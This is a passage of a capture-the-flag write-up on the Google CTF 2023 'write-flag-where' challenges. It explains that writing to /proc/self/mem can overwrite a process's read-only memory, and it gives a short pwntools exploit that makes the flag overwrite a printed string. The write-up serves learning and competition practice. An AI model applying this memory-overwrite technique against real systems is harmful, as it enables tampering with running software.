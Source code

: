 ### /proc/self/mem

This pseudo-file in the proc filesystem maps the memory of your process, so we can directly read the binary that is loaded in memory and also edit it. There are no permissions or memory restrictions such as "read-only memory" or "read/exec memory." We can overwrite anything inside the binary in memory by writing to this file, including the .text or .rodata sections.

---

With that being said, it becomes clearer what we need to do. In this first challenge, the only thing we need to do is overwrite the flag on top of the string "Give me an address and a length just so", exploit:

```python
# pwn template ./chal --host wfw1.2023.ctfcompetition.com --port 1337
...
io = start()

io.recvuntil(b"I'll give you my mappings so that you'll have a shot.")
maps = io.recvuntil(b'\n\n')

elf_base = parse_maps(maps)
log.info('Elf base: ' + hex(elf_base))
pause()

io.recvuntil(b'Send me nothing and I will happily expire')

string_addr = elf_base + 0x21e0
io.sendline(f'{hex(string_addr)} 100'.encode())

io.interactive()
```

## Second challenge

In the second challenge, things get a bit more complicated. We no longer have a string to overwrite, and the only difference from the previous challenge is the removal of the `dprintf` with the string "Give me an address and a length just so".

We thought about causing some error within the libc, like an abort from `malloc("free(): double free detected in tcache 2")`. Furthermore, we could overwrite this string in the libc and force any type of error, but it didn't work. As we saw before, when trying to write to *stderr*, the output will be redirected to **`/dev/null`**.

While trying to find new targets to write the flag, I was reading the strings of the binary and found something interesting:

```bash
r3tr0@pwnmachine:~$ strings ./chal
...
Somehow you got here??
...
```
